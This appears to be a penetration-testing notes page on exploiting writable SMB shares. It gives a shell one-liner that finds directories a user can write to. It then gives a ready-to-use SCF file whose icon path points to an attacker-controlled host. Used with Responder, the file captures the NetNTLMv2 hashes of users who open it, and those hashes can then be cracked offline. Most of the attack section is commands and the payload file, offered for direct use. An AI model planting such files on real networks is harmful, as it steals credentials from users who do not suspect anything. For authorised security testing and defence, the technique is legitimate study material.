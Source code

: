 # Writable SMB Paths

> Writable paths on an SMB share can be exploited in a variety of useful ways.

---

## Determine Writable Paths on an SMB Share

Mount the SMB share.

```bash
sudo mount -t cifs //$SMB_SERVER_FQDN_OR_IP/$SHARE $LOCAL_MOUNT_PATH
```

When prompted for a password, just hit enter.

Drop into a `root` shell (`sudo bash`) and run the following.

```bash
$ cd $LOCAL_MOUNT_PATH
$ find . -type d | while read directory; do touch ${directory}/tgihf 2>/dev/null && echo "${directory} - write file" && rm ${directory}/tgihf; mkdir ${directory}/tgihf 2>/dev/null && echo "${directory} - write dir" && rmdir ${directory}/tgihf; done
```

When you're finished, unmount the share.

```bash
sudo umount $LOCAL_MOUNT_PATH
```

---

## Write a SCF File to a Public SMB Share to Potentially Capture Someone's Hash

If you have write access to some directory within an SMB share, you can write a Shell Command File (SCF) file to that share whose icon is linked to an attacker-controlled SMB share. If a user clicks on the file, their computer will forward their NetNTLMv2 hash to the attacker-controlled SMB share. This hash can be cracked offline.

On the attacker-controlled machine, [[responder#Start Responding|start responding with responder]].

Create the SCF, something that looks like this:

```bash
$ cat tgihf.scf
[Shell]
Command=2
IconFile=\\$ATTACKER_FQDN_OR_IP\$ANY_SHARE_NAME\icon.ico
[Taskbar]
Command=ToggleDesktop
```

Write the SCF file to the writable SMB share folder and wait. If a user clicks on the file, their NetNTLMv2 hash will be captured by `responder`.
